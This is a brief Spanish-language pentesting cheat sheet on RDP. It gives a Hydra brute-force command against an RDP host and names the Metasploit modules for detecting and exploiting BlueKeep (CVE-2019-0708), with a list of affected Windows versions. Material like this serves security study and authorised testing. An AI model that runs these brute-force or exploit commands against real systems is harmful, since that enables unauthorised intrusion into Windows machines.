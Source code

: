 # RDP

## Fuerza Bruta

### Hydra

Para hacer fuerza bruta usamos hydra de la siguiente forma:

```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://192.168.1.1 -s 3333
```

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

## BlueKeep (CVE-2019-0708)

{% hint style="info" %}
BlueKeep (CVE-2019-0708) es una vulnerabilidad crítica en el servicio de Remote Desktop Protocol (RDP) de Microsoft Windows. Esta vulnerabilidad permite la ejecución remota de código en sistemas vulnerables, lo que significa que un atacante puede tomar el control de un equipo afectado sin necesidad de credenciales de usuario

Algunos S.O. afectados:

* Windows XP
* Windows Vista
* Windows 7
* Windows Server 2003
* Windows Server 2008 & R2
{% endhint %}

### Detección

Podemos usar el siguiente modulo de metasploit:

```bash
/auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

### Explotación

Podemos usar el siguiente modulo de metasploit:

```bash
/exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

<figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>
